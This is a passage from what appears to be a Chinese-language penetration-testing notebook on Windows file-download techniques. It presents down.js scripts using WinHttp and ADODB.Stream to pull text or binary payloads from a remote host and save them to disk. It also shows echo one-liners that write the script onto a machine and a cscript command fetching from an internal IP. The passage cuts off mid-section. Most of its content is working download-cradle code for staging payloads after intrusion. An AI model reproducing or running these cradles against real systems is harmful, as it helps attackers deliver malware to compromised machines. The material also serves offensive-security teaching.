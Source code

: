 ![Win10](../../.gitbook/assets/image%20%28393%29.png)

![HTTPS&#x4E0B;&#x8F7D;&#x6D4B;&#x8BD5;&#x5931;&#x8D25;](../../.gitbook/assets/image%20%28425%29.png)

## 2、JS下载

### 1、字符类payload

```text
## down.js

var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);

## 使用echo写入

echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();WScript.Echo(WinHttpReq.ResponseText); > down.js

##cscript调用下载，这里要用/nologo 否则会把banner信息写入hello.txt
cscript /nologo down.js http://172.16.175.1/robots.txt > Hello.txt
```

![&#x5728;Win2003&#x91CC;&#x6D4B;&#x8BD5;](../../.gitbook/assets/image%20%28379%29.png)

### 2、二进制payload

```text
## down.js

var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

## 使用echo写入

```